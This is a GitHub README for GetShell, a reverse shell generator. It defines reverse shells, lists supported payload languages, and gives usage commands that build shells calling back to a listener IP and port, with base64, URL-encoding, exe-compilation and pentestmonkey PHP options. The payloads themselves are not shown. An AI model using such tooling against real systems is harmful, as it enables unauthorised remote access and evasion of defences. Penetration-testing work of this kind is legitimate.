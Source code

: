 # Getshell
-----------------------------------------
### what is reverseshell
--------------------------------
The reverse shell (reverse shell) - also called reverse tunnel (reverse tunnel) - is a computer technique which makes it possible to redirect on a local computer the entry and the exit of a shell towards a remote computer, through a service able to interact between the two computers. One of the advantages of this technique is to make a local shell accessible from this remote server without being blocked by a firewall1.
### Getshell
--------------------------------
* Get shell is   reverseshell generator 
*  have opetion to convert to exe
*  also encode base64 and url encode 
*  generate PHP reverseshell "pentestmonkey"

### Support types of reverseshell :-
------------------------------------------------
* Spport type  is :  python
* Support type is :  bash
* Support type is :  perl
* Support type is :  php
* Support type is :  ruby
* Support type is :  netcat
* Support type is :  xterm
* Support type is :  java
* Support type is :  powershell
* Support type is :  js
* Support type is :  exe
## How to use :- 
----------------------------------------
* git clone https://github.com/jac11/GetShell.git
* cd GetShell
* chmod 755 getshell.py
-----------------------------------------------------------------

### Command :
---------------------------------
*  to check types reverseshell supoOptions
*    -T, --type : Type of payload (e.g., python, bash, perl, php, ruby, netcat, xterm, java, powershell, js, exe, nc)
*   -L, --LHOST : Local host IP address
*    -P, --LPORT : Local port number
*    -o, --output : Save the payload to a file
*   -B, --base64 : Encode the payload to Base64
*    -M, --pentestmonkey : Generate PHP Pentest Monkey payload file
*   -W, --windows : Generate reverse shell for Windows operating system
*    -I, --info : Print all supported reverse shell types
*    -F, --onefile : Generate Python script reverse shell
*    -U, --urlencode : Encode payload in URL format
````
./getshell.py --info
````
* to generate python reverseshell liunx 
```
 ./getshell.py -T python -L 10.195.100.22 -P 4444
```
*  to generate python reverseshell windows
```
./getshell.py -T python -L 10.195.100.22 -P 4444 -W
```
* to generate powershell reverseshell 
```
./getshellpy -T powershell -L 10.195.100.223 -P 4444 
```
*  to generate powershell reverseshell base64 or urlencode 
```
./getshellpy -T powershell -L 10.195.100.223 -P 4444 -B84
./getshellpy -T powershell -L 10.195.100.223 -P 4444 -UE
```
* write output in to file and -o 
```
./getshellpy -T powershell -L 10.195.100.223 -P 4444 -B84 -o
```
### EXE reversehell 
-------------------------------
* to can auto compile to exe file required " sudo apt-get install mingw-w64 "
* after insatll mingw-w64 you can compile to exe as
``` 
./getshell.py -T exe -L 10.195.100.22 -P 4444 
```
###  generate PHP reverseshell "pentestmonkey"
--------------------------------------------------
```
./getshell.py -T php -L 10.195.100.33 -P 5555 -M
```
### python file :
----------------------------------
* to generate python file not oneline shell for windows or linux use 
```
./getshell.py -T python -L 10.195.100.22 -P 7777 -F 
./getshell.py -T python -L 10.195.100.22 -P 7777 -F -W 
```
### note :
* all output file will autosave at /Stote_shell/ folder 
* option -L and  -P  your listiner ip and  port 
### Connect me :
   * jac11devel@gmail.com
   * Thank you
